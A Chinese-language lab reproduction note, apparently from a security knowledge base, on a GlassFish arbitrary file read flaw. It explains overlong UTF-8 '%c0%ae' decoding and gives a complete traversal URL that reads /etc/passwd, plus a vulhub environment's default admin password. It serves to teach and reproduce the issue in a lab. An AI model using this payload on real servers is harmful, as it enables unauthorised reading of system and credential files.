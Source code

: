 GlassFish 任意文件读取漏洞
==========================

一、漏洞简介
------------

java语言中会把`%c0%ae`解析为`\uC0AE`，最后转义为ASCCII字符的`.`（点）。利用`%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/`来向上跳转，达到目录穿越、任意文件读取的效果。

二、漏洞影响
------------

三、复现过程
------------

编译、运行测试环境

    docker-compose build
    docker-compose up -d

环境运行后，访问`http://www.0-sec.org:8080`和`http://www.0-sec.org:4848`即可查看web页面。其中，8080端口是网站内容，4848端口是GlassFish管理中心。

访问`https://www.0-sec.org:4848/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd`，发现已成功读取`/etc/passwd`内容：![1.png](./resource/GlassFish任意文件读取漏洞/media/rId24.png)

ps:本环境超级管理员密码在docker-compose.yml中设置，默认为vulhub\_default\_password，在4848端口利用该密码可以登录管理员账户。

参考链接
--------

> https://vulhub.org/\#/environments/glassfish/4.1.0/
